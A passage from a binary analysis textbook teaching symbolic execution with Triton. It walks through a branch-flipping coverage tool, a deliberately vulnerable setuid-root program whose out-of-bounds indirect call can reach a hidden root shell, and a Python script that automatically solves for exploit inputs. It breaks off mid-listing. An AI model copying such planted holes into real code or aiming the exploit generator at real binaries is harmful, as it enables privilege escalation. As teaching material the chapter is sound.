4055dc:       3c 25                    cmp     al,0x25
 4055de:       0f 8d f4 00 00 00        jge     4056d8
```

When emulating the `jge`, Triton creates a `PathConstraint` object with two branch constraints. Let’s assume that the first branch constraint represents the *taken* direction of the `jge` (that is, the direction that’s taken if the condition holds) and that this is the direction taken during the emulation. That means the first branch constraint stored in the `PathConstraint` has a `true` flag (because it was taken during the emulation), and the source and destination addresses will be `0x4055de` (the address of the `jge`) and `0x4056d8` (the target of the `jge`), respectively. The AST for this branch condition will encode the condition `al` ≥ `0x25`. The second branch constraint has a `false` flag, representing the branch direction that wasn’t taken during emulation. The source and destination addresses are `0x4055de` and `0x4055e4` (the fallthrough address of the `jge`), and the AST encodes the condition `al` \< `0x25` (or more precisely, `not(al` ≥ `0x25)`).

Now, for each `PathConstraint`, `find_new_input` copies the branch constraint whose flag is `true`, except for the `PathConstraint` associated with the branch instruction you want to flip, for which it instead copies the `false` branch constraint, thereby inverting that branch decision. To recognize the branch to flip, `find_new_input` uses the branch source address. For constraints with a source address unequal to the address of the branch to invert ➐, it copies the branch constraint with the `true` flag ➑ and appends it to the `constraint_list` using a logical AND, implemented with `ast.land`.

##### Getting a Model from the Constraint Solver

Finally, `find_new_input` will encounter the `PathConstraint` associated with the branch you want to flip. It contains multiple branch constraints whose source address is equal to the address of the branch to flip ➒. To clearly show all possible branch directions in `code_coverage`’s output, `find_new_input` prints each branch condition with a matching source address, regardless of its flag.

If the flag is `true`, then `find_new_input` *doesn’t* append the branch constraint to the `constraint_list` because it corresponds to the branch direction you’ve already explored. However, if the flag is `false` ➓, it represents the unexplored branch direction, so `find_new_input` appends this branch constraint to the constraint list and passes the list to the constraint solver by calling `api.getModel`.

The `getModel` function invokes the constraint solver Z3 and asks it for a model that satisfies the list of constraints. If a model is found, `getModel` returns it as a `std::map` that maps Triton symbolic variable identifiers to `triton::engines::solver::SolverModel` objects. The model represents a new set of concrete inputs to the analyzed program that will cause the program to take the previously unexplored branch direction. If no model is found, the returned map is empty.

Each `SolverModel` object contains the concrete value that the constraint solver assigned to the corresponding symbolic variable in the model. The `code_coverage` tool reports the model to the user by looping over the map and printing each symbolic variable’s ID and comment, which contains the human-readable name of the corresponding register or memory location, as well as the concrete value assigned in the model (as returned by `SolverModel::getValue`).

To see how to use the output of `code_coverage` in practice, let’s now try it on a test program to find and use new inputs to cover a branch of your choice.

#### *13.4.3 Testing the Code Coverage Tool*

Listing 13-8 shows a simple test program that you can use to try the ability of `code_coverage` to generate inputs that explore a new branch direction.

*Listing 13-8:* branch.c

```
   #include <stdio.h>
   #include <stdlib.h>

   void
   branch(int x, int y)
   {
➊   if(x < 5) {
➋     if(y == 10) printf("x < 5 && y == 10\n");
       else        printf("x < 5 && y != 10\n");
     } else {
       printf("x >= 5\n");
     }
   }

   int
   main(int argc, char *argv[])
   {
     if(argc < 3) {
       printf("Usage: %s <x> <y>\n", argv[0]);
       return 1;
     }

➌   branch(strtol(argv[1], NULL, 0), strtol(argv[2], NULL, 0));

     return 0;
   }
```

As you can see, the `branch` program contains a function called `branch`, which takes two integers called `x` and `y` as input. The `branch` function contains an outer `if`/`else` branch based on the value of `x` ➊ and a nested `if`/`else` branch based on `y` ➋. The function is called by `main` with the `x` and `y` arguments being supplied from user input ➌.

Let’s first run `branch` with `x = 0` and `y = 0` so that the outer branch takes the `if` direction and the nested branch takes the `else` direction. Then you can use `code_coverage` to find inputs to flip the nested branch so it takes the `if` direction. But first, let’s build the symbolic configuration file needed to run `code_coverage`.

##### Building a Symbolic Configuration File

To use `code_coverage`, you need a symbolic configuration file, and to make that, you need to know which registers and memory locations the compiled version of `branch` uses. Listing 13-9 shows the disassembly of the `branch` function. Let’s analyze it to find out which registers and memory locations `branch` uses.

*Listing 13-9: Disassembly excerpt from* ~/code/chapter13/branch

```
   $ objdump -M intel -d ./branch
   ...
   00000000004005b6 <branch>:
     4005b6:  55               push   rbp
     4005b7:  48 89 e5         mov    rbp,rsp
     4005ba:  48 83 ec 10      sub    rsp,0x10
➊   4005be:  89 7d fc         mov    DWORD PTR [rbp-0x4],edi
➋   4005c1:  89 75 f8         mov    DWORD PTR [rbp-0x8],esi
➌   4005c4:  83 7d fc 04      cmp    DWORD PTR [rbp-0x4],0x4
➍   4005c8:  7f 1e            jg     4005e8 <branch+0x32>
➎   4005ca:  83 7d f8 0a      cmp    DWORD PTR [rbp-0x8],0xa
➏   4005ce:  75 0c            jne    4005dc <branch+0x26>
     4005d0:  bf 04 07 40 00   mov    edi,0x400704
     4005d5:  e8 96 fe ff ff   call   400470 <puts@plt>
     4005da:  eb 16            jmp    4005f2 <branch+0x3c>
     4005dc:  bf 15 07 40 00   mov    edi,0x400715
     4005e1:  e8 8a fe ff ff   call   400470 <puts@plt>
     4005e6:  eb 0a            jmp    4005f2 <branch+0x3c>
     4005e8:  bf 26 07 40 00   mov    edi,0x400726
     4005ed:  e8 7e fe ff ff   call   400470 <puts@plt>
     4005f2:  c9               leave
     4005f3:  c3               ret
   ...
```

The Ubuntu installation on the VM uses the x64 version of the System V *application binary interface (ABI)*, which dictates the *calling convention* used on the system. In the System V calling convention for x64 systems, the first and second arguments to a function call are stored in the `rdi` and `rsi` registers, respectively.^(6) In this case, this means you’ll find the `x` parameter of the `branch` function in `rdi` and the `y` parameter in `rsi`. Internally, the `branch` function immediately moves `x` to the memory location `rbp-0x4` ➊ and `y` to `rbp-0x8` ➋. Then `branch` compares the first memory location containing `x` against the value 4 ➌, followed by a `jg` at address `0x4005c8`, which implements the outer `if`/`else` branch ➍.

The `jg`’s target address `0x4005e8` contains the `else` case (`x` ≥ `5`), while the fallthrough address `0x4005ca` contains the `if` case. Inside the `if` case is the nested `if`/`else` branch, which is implemented as a `cmp` that compares `y`’s value to 10 (`0xa`) ➎, followed by a `jne` that jumps to `0x4005dc` if `y` ≠ 10 ➏ (the nested `else`) or falls through to `0x4005d0` otherwise (the nested `if` case).

Now that you know which registers contain the `x` and `y` inputs and the address `0x4005ce` of the nested branch you want to flip, let’s make the symbolic configuration file. Listing 13-10 shows the configuration file to use for the test.

*Listing 13-10:* branch.map

```
➊ %rdi=$
  %rdi=0
➋ %rsi=$
  %rsi=0
```

The configuration file makes `rdi` (representing `x`) symbolic and assigns it the concrete value 0 ➊. It does the same for `rsi`, which contains `y` ➋. Because `x` and `y` are both symbolic, when you generate a model for the new inputs, the constraint solver will give you concrete values for both `x` and `y`.

##### Generating a New Input

Recall that the symbolic configuration file assigns the value 0 to both `x` and `y`, creating a baseline from which `code_coverage` can generate a new input that covers a different path. When you run the `branch` program with these baseline inputs, it prints the message `x < 5 && y != 10`, as shown in the following listing:

```
$ ./branch 0 0
x < 5 && y != 10
```

Let’s now use `code_coverage` to generate new inputs that flip the nested `branch` that checks y’s value so that you can use these new inputs to run branch again and get the output x \< 5 && y == 10 instead. Listing 13-11 shows how to do that.

*Listing 13-11: Finding inputs to take the alternative branch at* 0x4005ce

```
➊ $ ./code_coverage branch branch.map 0x4005b6 0x4005ce
   evaluating branch 0x4005ce:
➋      0x4005ce -> 0x4005dc (taken)
➌      0x4005ce -> 0x4005d0 (not taken)
➍      computing new input for 0x4005ce -> 0x4005d0
➎        SymVar 0 (rdi) = 0x0
          SymVar 1 (rsi) = 0xa
```

You call `code_coverage` giving the `branch` program as input, as well as the symbolic configuration file you made (`branch.map`), the start address `0x4005b6` of the `branch` function (the entry point for the analysis), and the address `0x4005ce` of the nested branch to flip ➊.

When the emulation hits that branch address, `code_coverage` evaluates and prints each of the branch constraints that Triton generated as part of the `PathConstraint` associated with the branch. The first constraint is for the branch direction with target address `0x4005dc` (the nested `else`), and this direction is taken during the emulation because of the concrete input values you specified in the configuration file ➋. As `code_coverage` reports, the fallthrough branch direction with destination address `0x4005d0` (the nested `if` case) is not taken ➌, so `code_coverage` tries to compute new input values that lead to that branch direction ➍.

Although in general the constraint solving required to find the new input values can take a while, it should complete in only a few seconds for constraints as simple as this case. Once the solver finds a model, `code_coverage` prints it to screen ➎. As you can see, the model assigns the concrete value 0 to `rdi` (`x`) and the value `0xa` to `rsi` (`y`).

Let’s run the `branch` program with these new inputs to see whether they cause the nested branch to flip.

```
$ ./branch 0 0xa
x < 5 && y == 10
```

With these new inputs, `branch` prints the output `x < 5 && y == 10`, not the message `x < 5 && y != 10` that you got in the previous run of the `branch` program. The inputs generated by `code_coverage` successfully flipped the direction of the nested branch!

### 13.5 Automatically Exploiting a Vulnerability

Now let’s look at an example that requires more complex constraint solving than the previous example. In this section, you’ll learn to use Triton to automatically generate inputs that exploit a vulnerability in a program by hijacking an indirect call site and redirecting it to an address of your choice.

Let’s assume that you already know there’s a vulnerability that allows you to control the call site’s target, but you don’t yet know how to exploit it to reach the address you want because the target address is computed from the user inputs in a nontrivial way. This is a situation you may encounter in real life during fuzzing, for example.

As you learned in Chapter 12, symbolic execution is too computationally expensive for a brute-force fuzzing approach that tries to find an exploit for every indirect call site in a program. Instead, you can optimize by first fuzzing the program in a more traditional way, supplying it with many pseudorandomly generated inputs and using taint analysis to determine whether these inputs affect dangerous program state, such as indirect call sites. Then, you can use symbolic execution to generate exploits only for those call sites that the taint analysis has revealed to be potentially controllable. This is the use case I assume in the following example.

#### *13.5.1 The Vulnerable Program*

First, let’s take a look at the program to exploit and the vulnerable call site it contains. Listing 13-12 shows the vulnerable program’s source file *icall.c*. The *Makefile* compiles the program into a `setuid root` binary^(7) called `icall` that contains an indirect call site that calls one of several handler functions. This is similar to how web servers like `nginx` use function pointers to choose an appropriate handler for the data they receive.

*Listing 13-12:* icall.c

```
   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include <unistd.h>
   #include <crypt.h>

   void forward (char *hash);
   void reverse (char *hash);
   void hash    (char *src, char *dst);

➊ static struct {
     void (*functions[2])(char *);
     char hash[5];
   } icall;

   int
   main(int argc, char *argv[])
   {
     unsigned i;

➋   icall.functions[0] = forward;
     icall.functions[1] = reverse;

     if(argc < 3) {
       printf("Usage: %s <index> <string>\n", argv[0]);
       return 1;
     }

➌    if(argc > 3 && !strcmp(crypt(argv[3], "$1$foobar"), "$1$foobar$Zd2XnPvN/dJVOseI5/5Cy1")) {
        /* secret admin area */
        if(setgid(getegid())) perror("setgid");
        if(setuid(geteuid())) perror("setuid");
        execl("/bin/sh", "/bin/sh", (char*)NULL);
➍    } else {
➎      hash(argv[2], icall.hash);
➏      i = strtoul(argv[1], NULL, 0);

        printf("Calling %p\n", (void*)icall.functions[i]);
➐      icall.functions[i](icall.hash);
     }

     return 0;
   }

   void
   forward(char *hash)
   {
     int i;

     printf("forward: ");
     for(i = 0; i < 4; i++) {
       printf("%02x", hash[i]);
    }
    printf("\n");
   }

   void
   reverse(char *hash)
   {
     int i;

     printf("reverse: ");
     for(i = 3; i >= 0; i--) {
       printf("%02x", hash[i]);
     }
     printf("\n");
   }

   void
   hash(char *src, char *dst)
   {
     int i, j;

     for(i = 0; i < 4; i++) {
       dst[i] = 31 + (char)i;
       for(j = i; j < strlen(src); j += 4) {
         dst[i] ˆ= src[j] + (char)j;
         if(i > 1) dst[i] ˆ= dst[i-2];
       }
     }
     dst[4] = '\0';
   }
```

The `icall` program revolves around a global `struct`, which is also called `icall` ➊. This `struct` contains an array called `icall.functions` that has room for two function pointers and a `char` array called `icall.hash` that stores a 4-byte hash with a terminating `NULL` character. The `main` function initializes the first entry in `icall.functions` so that it points to a function called `forward`, and initializes the second entry so that it points to `reverse` ➋. Both these functions take a hash parameter in the form of a `char*` and print the hash’s bytes in forward or reverse order, respectively.

The `icall` program takes two command line arguments: an integer index and a string. The index decides which entry from `icall.functions` will be called, while the string serves as input to generate the hash, as you’ll see in a moment.

There’s also a secret third command line argument not advertised in the usage string. This argument is a password for an admin area that provides a root shell. To check the password, `icall` hashes it with the GNU `crypt` function (from *crypt.h*), and if the hash is correct, the user is granted access to the root shell ➌. Our goal for the exploit is to hijack an indirect call site and redirect it to this secret admin area without knowing the password.

If no secret password is supplied ➍, `icall` calls a function named `hash` that computes a 4-byte hash over the string supplied by the user and places that hash in `icall.hash` ➎. After computing the hash, `icall` parses the index from the command line ➏ and uses it to index the `icall.functions` array, indirectly calling the handler at that index and passing the just-computed hash as the argument ➐. This indirect call is the one I’ll use in the exploit. For diagnostics, `icall` prints the address of the function it’s about to invoke, which will be handy later when crafting the exploit.

Normally, the indirect call invokes `forward` or `reverse`, which then prints the hash to screen as follows:

```
➊ $ ./icall 1 foo
➋ Calling 0x400974
➌ reverse: 22295079
```

Here, I’ve used `1` as the function index, resulting in a call to the `reverse` function, and `foo` as the input string ➊. You can see that the indirect call targets address `0x400974` (the start of `reverse`) ➋, and the hash of `foo`, printed in reverse, is `0x22295079` ➌.

You may have noticed that the indirect call is vulnerable: there’s no verification that the user-supplied index stays within the bounds of `icall.functions`, so by supplying an out-of-bounds index, the user can coax the `icall` program into using data *outside* the `icall.functions` array as the indirect call target! As it happens, the `icall.hash` field is adjacent to `icall.functions` in memory, so by supplying the out-of-bounds index 2, the user can trick the `icall` program into using `icall.hash` as the indirect call target, as you can see in the following listing:

```
   $ ./icall 2 foo
➊ Calling 0x22295079
➋ Segmentation fault (core dumped)
```

Note that the called address corresponds to the hash interpreted as a little-endian address ➊! There’s no code at that address, so the program crashes with a segmentation fault ➋. However, recall that the user controls not only the index but also the string used as the input for the hash. The challenge is to find a string that hashes exactly to the address of the secret admin area and then trick the indirect call into using that hash as the call target, thereby transferring control to the admin area and giving you a root shell without needing to know the password.

To manually craft an exploit for this vulnerability, you would need to either use brute force or reverse engineer the `hash` function to figure out which input string provides the desired hash. The great thing about using symbex to generate the exploit is that it will automatically solve the `hash` function, allowing you to simply treat it as a black box!

#### *13.5.2 Finding the Address of the Vulnerable Call Site*

Automatically building the exploit requires two key pieces of information: the address of the vulnerable indirect call site that the exploit should hijack and the address of the secret admin area where you want to redirect control. Listing 13-13 shows the disassembly of the `main` function from the `icall` binary, which contains both these addresses.

*Listing 13-13: Disassembly excerpt from* ~/code/chapter13/icall

```
   0000000000400abe <main>:
     400abe:  55                    push   rbp
     400abf:  48 89 e5              mov    rbp,rsp
     400ac2:  48 83 ec 20           sub    rsp,0x20
     400ac6:  89 7d ec              mov    DWORD PTR [rbp-0x14],edi
     400ac9:  48 89 75 e0           mov    QWORD PTR [rbp-0x20],rsi
     400acd:  48 c7 05 c8 15 20 00  mov    QWORD PTR [rip+0x2015c8],0x400916
     400ad4:  16 09 40 00
     400ad8:  48 c7 05 c5 15 20 00  mov    QWORD PTR [rip+0x2015c5],0x400974
     400adf:  74 09 40 00
     400ae3:  83 7d ec 02           cmp    DWORD PTR [rbp-0x14],0x2
     400ae7:  7f 23                 jg     400b0c <main+0x4e>
     400ae9:  48 8b 45 e0           mov    rax,QWORD PTR [rbp-0x20]
     400aed:  48 8b 00              mov    rax,QWORD PTR [rax]
     400af0:  48 89 c6              mov    rsi,rax
     400af3:  bf a1 0c 40 00        mov    edi,0x400ca1
     400af8:  b8 00 00 00 00        mov    eax,0x0
     400afd:  e8 5e fc ff ff        call   400760 <printf@plt>
     400b02:  b8 01 00 00 00        mov    eax,0x1
     400b07:  e9 ea 00 00 00        jmp    400bf6 <main+0x138>
     400b0c:  83 7d ec 03           cmp    DWORD PTR [rbp-0x14],0x3
     400b10:  7e 78                 jle    400b8a <main+0xcc>
     400b12:  48 8b 45 e0           mov    rax,QWORD PTR [rbp-0x20]
     400b16:  48 83 c0 18           add    rax,0x18
     400b1a:  48 8b 00              mov    rax,QWORD PTR [rax]
     400b1d:  be bd 0c 40 00        mov    esi,0x400cbd
     400b22:  48 89 c7              mov    rdi,rax
     400b25:  e8 56 fc ff ff        call   400780 <crypt@plt>
     400b2a:  be c8 0c 40 00        mov    esi,0x400cc8
     400b2f:  48 89 c7              mov    rdi,rax
     400b32:  e8 69 fc ff ff        call   4007a0 <strcmp@plt>
     400b37:  85 c0                 test   eax,eax
     400b39:  75 4f                 jne    400b8a <main+0xcc>
➊   400b3b:  e8 70 fc ff ff        call   4007b0 <getegid@plt>
     400b40:  89 c7                 mov    edi,eax
➋   400b42:  e8 79 fc ff ff        call   4007c0 <setgid@plt>
     400b47:  85 c0                 test   eax,eax
     400b49:  74 0a                 je     400b55 <main+0x97>
     400b4b:  bf e9 0c 40 00        mov    edi,0x400ce9
     400b50:  e8 7b fc ff ff        call   4007d0 <perror@plt>
     400b55:  e8 16 fc ff ff        call   400770 <geteuid@plt>
     400b5a:  89 c7                 mov    edi,eax
➌   400b5c:  e8 8f fc ff ff        call   4007f0 <setuid@plt>
     400b61:  85 c0                 test   eax,eax
     400b63:  74 0a                 je     400b6f <main+0xb1>
     400b65:  bf f0 0c 40 00        mov    edi,0x400cf0
     400b6a:  e8 61 fc ff ff        call   4007d0 <perror@plt>
     400b6f:  ba 00 00 00 00        mov    edx,0x0
     400b74:  be f7 0c 40 00        mov    esi,0x400cf7
     400b79:  bf f7 0c 40 00        mov    edi,0x400cf7
     400b7e:  b8 00 00 00 00        mov    eax,0x0
➍   400b83:  e8 78 fc ff ff        call   400800 <execl@plt>
     400b88:  eb 67                 jmp    400bf1 <main+0x133>
     400b8a:  48 8b 45 e0           mov    rax,QWORD PTR [rbp-0x20]
     400b8e:  48 83 c0 10           add    rax,0x10
     400b92:  48 8b 00              mov    rax,QWORD PTR [rax]
     400b95:  be b0 20 60 00        mov    esi,0x6020b0
     400b9a:  48 89 c7              mov    rdi,rax
     400b9d:  e8 30 fe ff ff        call   4009d2 <hash>
     400ba2:  48 8b 45 e0           mov    rax,QWORD PTR [rbp-0x20]
     400ba6:  48 83 c0 08           add    rax,0x8
     400baa:  48 8b 00              mov    rax,QWORD PTR [rax]
     400bad:  ba 00 00 00 00        mov    edx,0x0
     400bb2:  be 00 00 00 00        mov    esi,0x0
     400bb7:  48 89 c7              mov    rdi,rax
     400bba:  e8 21 fc ff ff        call   4007e0 <strtoul@plt>
     400bbf:  89 45 fc              mov    DWORD PTR [rbp-0x4],eax
     400bc2:  8b 45 fc              mov    eax,DWORD PTR [rbp-0x4]
     400bc5:  48 8b 04 c5 a0 20 60  mov    rax,QWORD PTR [rax*8+0x6020a0]
     400bcc:  00      
     400bcd:  48 89 c6              mov    rsi,rax
     400bd0:  bf ff 0c 40 00        mov    edi,0x400cff
     400bd5:  b8 00 00 00 00        mov    eax,0x0
     400bda:  e8 81 fb ff ff        call   400760 <printf@plt>
     400bdf:  8b 45 fc              mov    eax,DWORD PTR [rbp-0x4]
     400be2:  48 8b 04 c5 a0 20 60  mov    rax,QWORD PTR [rax*8+0x6020a0]
     400be9:  00
     400bea:  bf b0 20 60 00        mov    edi,0x6020b0
➎   400bef: ff d0                  call   rax
     400bf1:  b8 00 00 00 00        mov    eax,0x0
     400bf6:  c9                    leave
     400bf7:  c3                    ret
     400bf8:  0f 1f 84 00 00 00 00  nop    DWORD PTR [rax+rax*1+0x0]
     400bff:  00
```

The code for the secret admin area starts at address `0x400b3b` ➊, so that’s where you’ll want to redirect control. You can tell it’s the admin area by the calls to `setgid` ➋ and `setuid` ➌, where `icall` prepares the `root` privileges for the shell, and by the call to `execl` ➍ that spawns the shell itself. The vulnerable indirect call site to hijack is at address `0x400bef` ➎.

Now that you have the necessary addresses, let’s build the symbex tool to generate the exploit.

#### *13.5.3 Building the Exploit Generator*

Briefly put, the tool that generates the exploit works by concolically executing the `icall` program, symbolizing all of the command line arguments given by the user, with a separate symbolic variable per byte of input. It then tracks this symbolic state all the way from the start of the program and through the `hash` function until execution finally reaches the indirect call site to exploit. At that point, the exploit generator calls the constraint solver and asks it if there’s any assignment of concrete values to the symbolic variables that makes the indirect call target (stored in `rax`) equal to the address of the secret admin area. If such a model exists, the exploit generator prints it to screen, and you can then use those values as input to exploit the `icall` program.

Note that in contrast to the earlier examples, this one uses Triton’s concolic mode rather than its symbolic emulation mode. The reason is that generating the exploit requires tracing the symbolic state through a whole program across multiple functions, which is inconvenient and slow in emulation mode. Moreover, concolic execution mode makes it easy to experiment with different lengths for the input string.

Unlike most examples in this book, this one is written in Python because Triton’s concolic mode only allows you to use the Python API. Concolic Triton tools are Python scripts that you pass to a special Pin tool that provides Triton’s concolic engine. Triton provides a wrapper script called `triton` that automatically takes care of all the details of calling Pin so that all you have to do is specify which Triton tool to use and which program to analyze. You can find the `triton` wrapper script in *~/triton/pin-2.14-71313-gcc.4.4.7-linux/ source/tools/Triton/build*, and you’ll see an example of how to use it when testing the automatic exploit generation tool.

##### Setting Up the Concolic Execution

Listing 13-14 shows the first part of the exploit generation tool, *exploit \_callsite.py*.

*Listing 13-14:* exploit_callsite.py

```
   #!/usr/bin/env python2
   ## -*- coding: utf-8 -*-

➊ import triton
   import pintool

➋ taintedCallsite = 0x400bef # Found in a previous DTA pass
   target          = 0x400b3b # Target to redirect callsite to

➌ Triton = pintool.getTritonContext()

   def main():
➍     Triton.setArchitecture(triton.ARCH.X86_64)
       Triton.enableMode(triton.MODE.ALIGNED_MEMORY, True)

➎     pintool.startAnalysisFromSymbol('main')

➏     pintool.insertCall(symbolize_inputs, pintool.INSERT_POINT.ROUTINE_ENTRY, 'main')
➐     pintool.insertCall(hook_icall, pintool.INSERT_POINT.BEFORE)

➑     pintool.runProgram()

   if __name__ == '__main__':
       main()
```

Concolic Triton tools like *exploit_callsite.py* must import the `triton` and `pintool` modules ➊, which provide access to the familiar Triton API and Triton’s bindings for interacting with Pin, respectively. Unfortunately, there’s no way to pass command line arguments to concolic Triton tools, so I’ve instead hardcoded the addresses of the indirect call site you’re exploiting (`taintedCallsite`) and the secret admin area (`target`) ➋ to which you want to redirect control. The `taintedCallsite` variable gets its name from the assumption that you found this call site in a previous taint analysis pass. As an alternative to hardcoded arguments, you could also pass arguments via environment variables, for example.

Concolic Triton tools maintain the symbex state in a global Triton context, which you access by calling `pintool.getTritonContext()` ➌. This returns a `TritonContext` object that you can use to access (a subset of) the familiar Triton API functions. Here, *exploit_callsite.py* stores a reference to that `TritonContext` in a global variable called `Triton` for easy access.

The main logic of *exploit_callsite.py* starts in the function named `main`, which is called when the script starts. Just like in the C++ symbolic emulation tools you saw earlier, it starts by setting the Triton architecture and enabling the `ALIGNED_MEMORY` optimization ➍. Because this tool is tailored toward the `icall` binary you’re exploiting, I’ve simply hardcoded the architecture to x86-64 instead of making it configurable.

Next, *exploit_callsite.py* uses Triton’s `pintool` API to set up the starting point for the concolic analysis. It tells Triton to start the symbolic analysis from the `main` function in the vulnerable `icall` program ➎. That means all of `icall`’s initialization code that comes before `main` runs without symbolic analysis, and Triton’s analysis kicks in once execution reaches `main`.

Note that this assumes that symbols are available; if they aren’t, then Triton won’t know where the `main` function is. In that case, you’ll instead have to find the address of `main` yourself through disassembly and tell Triton to start analysis at that address by calling `pintool.startAnalysisFromAddress` instead of `pintool.startAnalysisFromSymbol`.

After configuring the analysis starting point, *exploit_callsite.py* registers two callbacks using Triton’s `pintool.insertCall` function. The `pintool.insertCall` function takes at least two arguments: a callback function and an *insert point*, followed by zero or more optional arguments depending on the type of insert point.

The first installed callback function is named `symbolize_inputs` and uses the insert point `INSERT_POINT.ROUTINE_ENTRY` ➏, which means the callback triggers when execution reaches the entry point of a given routine. You can specify that routine by name in an extra argument to `insertCall`. In the case of `symbolize_inputs`, I’ve specified `main` as the routine to install the callback on because the purpose of `symbolize_inputs` is to symbolize all of the user inputs given to `icall`’s `main` function. When a callback of type `ROUTINE_ENTRY` happens, Triton passes the current thread ID as an argument to the callback function.

The second callback is named `hook_icall`, and it’s installed on the insert point `INSERT_POINT.BEFORE` ➐, meaning that the callback triggers before every instruction. The job of `hook_icall` is to check whether execution has reached the vulnerable indirect call site and, if so, generate an exploit for it given the results of the symbolic analysis. When the callback triggers, Triton provides `hook_icall` with an `Instruction` argument representing the details of the instruction that’s about to execute so that `hook_icall` can check whether it’s the indirect call instruction you want to exploit. Table 13-1 shows an overview of all the possible insert points Triton supports.

**Table 13-1:** Triton Insert Points for Callbacks in Concolic Mode

| Insert point     | Callback moment             | Arguments    | Callback arguments             |
|------------------|-----------------------------|--------------|--------------------------------|
| `AFTER`          | After instruction executes  |              | Instruction object             |
| `BEFORE`         | Before instruction executes |              | Instruction object             |
| `BEFORE_SYMPROC` | Before symbolic processing  |              | Instruction object             |
| `FINI`           | End of execution            |              |                                |
| `ROUTINE_ENTRY`  | Routine entry point         | Routine name | Thread ID                      |
| `ROUTINE_EXIT`   | Routine exit                | Routine name | Thread ID                      |
| `IMAGE_LOAD`     | New image loaded            |              | Image path, base address, size |
| `SIGNALS`        | Signal delivery             |              | Thread ID, signal ID           |
| `SYSCALL_ENTRY`  | Before syscall              |              | Thread ID, syscall descriptor  |
| `SYSCALL_EXIT`   | After syscall               |              | Thread ID, syscall descriptor  |

Finally, after completing the prerequisite setup, *exploit_callsite.py* calls `pintool.runProgram` to start running the analyzed program ➑. That completes all the necessary setup for concolically analyzing the `icall` program, but I haven’t yet discussed any of the code responsible for generating the actual exploit. Let’s do that now and discuss the callback handler functions `symbolize_inputs` and `hook_icall`, which implement the user input symbolization and the call site exploitation, respectively.

##### Symbolizing the User Inputs

Listing 13-15 shows the implementation of `symbolize_inputs`, the handler that’s called when execution reaches the `main` function of the analyzed program. In accordance with Table 13-1, `symbolize_inputs` takes a thread ID parameter because it’s a callback for the `ROUTINE_ENTRY` insert point. For the purposes of this example, you don’t need to know the thread ID and can simply ignore it. As mentioned previously, `symbolize_inputs` symbolizes all the command line arguments given by the user so that the solver can later figure out how to manipulate these symbolic variables to craft an exploit.

*Listing 13-15:* exploit_callsite.py *(continued)*

```
   def symbolize_inputs(tid):
➊     rdi = pintool.getCurrentRegisterValue(Triton.registers.rdi) # argc
       rsi = pintool.getCurrentRegisterValue(Triton.registers.rsi) # argv

       # for each string in argv
➋     while rdi > 1:
➌         addr = pintool.getCurrentMemoryValue(
           rsi + ((rdi-1)*triton.CPUSIZE.QWORD),

           triton.CPUSIZE.QWORD)
       # symbolize current argument string (including terminating NULL)
       c = None
       s = ''
➍     while c != 0:
➎         c = pintool.getCurrentMemoryValue(addr)
           s += chr(c)
➏         Triton.setConcreteMemoryValue(addr, c)
➐         Triton.convertMemoryToSymbolicVariable(
                   triton.MemoryAccess(addr, triton.CPUSIZE.BYTE)
               ).setComment('argv[%d][%d]' % (rdi-1, len(s)-1))
           addr += 1
       rdi -= 1
       print 'Symbolized argument %d: %s' % (rdi, s)
```

To symbolize the user inputs, `symbolize_inputs` needs access to the argument count (`argc`) and argument vector (`argv`) of the analyzed program. Because `symbolize_inputs` is called when `main` starts, you can get `argc` and `argv` by reading the `rdi` and `rsi` registers, which contain `main`’s first two arguments according to the x86-64 System V ABI ➊. To read a register’s current value as it is in the concrete execution, you use the `pintool.getCurrentRegisterValue` function, giving the register’s ID as input.

After obtaining `argc` and `argv`, `symbolize_inputs` loops over all the arguments by decrementing `rdi` (`argc`) until no more arguments remain ➋. Recall that in C/C++ programs, `argv` is an array of pointers to character strings. To get a pointer from `argv`, `symbolize_inputs` reads 8 bytes (`triton.CPUSIZE.QWORD`) from the `argv` entry currently indexed by `rdi` using Triton’s `pintool.getCurrentMemoryValue` function, which takes an address and size as input ➌, and stores the read pointer in `addr`.

Next, `symbolize_inputs` reads all of the characters from the string pointed to by `addr` in turn, incrementing `addr` until it reads a `NULL` character ➍. To read each character, it again uses `getCurrentMemoryValue` ➎, this time without a size argument so that it reads the default size of 1 byte. After reading a character, `symbolize_inputs` sets that character as the concrete value for that memory address in Triton’s global context ➏ and converts the memory address containing the user input byte into a symbolic variable ➐, setting a comment on that symbolic variable to later remind you to which `argv` index it corresponds. Again, this should be familiar from the C++ examples you saw before.

After `symbolize_inputs` completes, all of the command line arguments given by the user will have been converted into separate symbolic variables (one per input byte) and set as concrete state in Triton’s global context. Now let’s see how *exploit_callsite.py* uses the solver to solve for these symbolic variables and find an exploit for the vulnerable call site.

##### Solving for an Exploit

Listing 13-16 shows `hook_icall`, the callback that’s called just before every instruction.

*Listing 13-16:* exploit_callsite.py *(continued)*

```
   def hook_icall(insn):
➊     if insn.isControlFlow() and insn.getAddress() == taintedCallsite:
➋         for op in insn.getOperands():
➌             if op.getType() == triton.OPERAND.REG:
                  print 'Found tainted indirect call site \'%s\'' % (insn)
➍                exploit_icall(insn, op)
```

For each instruction, `hook_icall` checks whether it’s the indirect call that you want to exploit. It first verifies that this is a control flow instruction ➊ and that it has the address of the call site you want to exploit. It then loops over all the instruction’s operands ➋ to find the register operand containing the call site’s target address ➌. Finally, if all these checks hold up, `hook_icall` calls the `exploit_icall` function to compute the exploit itself ➍. Listing 13-17 shows the implementation of `exploit_icall`.

*Listing 13-17:* exploit_callsite.py *(continued)*

```
   def exploit_icall(insn, op):
➊      regId   = Triton.getSymbolicRegisterId(op)
➋      regExpr = Triton.unrollAst(Triton.getAstFromId(regId))
➌      ast = Triton.getAstContext()

➍      exploitExpr = ast.equal(regExpr, ast.bv(target, triton.CPUSIZE.QWORD_BIT))
➎      for k, v in Triton.getSymbolicVariables().iteritems():
➏          if 'argv' in v.getComment():
               # Argument characters must be printable
➐             argExpr = Triton.getAstFromId(k)
➑             argExpr = ast.land([
                             ast.bvuge(argExpr, ast.bv(32, triton.CPUSIZE.BYTE_BIT)),
                             ast.bvule(argExpr, ast.bv(126, triton.CPUSIZE.BYTE_BIT))
                        ])
➒             exploitExpr = ast.land([exploitExpr, argExpr])

       print 'Getting model for %s -> 0x%x' % (insn, target)
➓     model = Triton.getModel(exploitExpr)
      for k, v in model.iteritems():
          print '%s (%s)' % (v, Triton.getSymbolicVariableFromId(k).getComment())
```

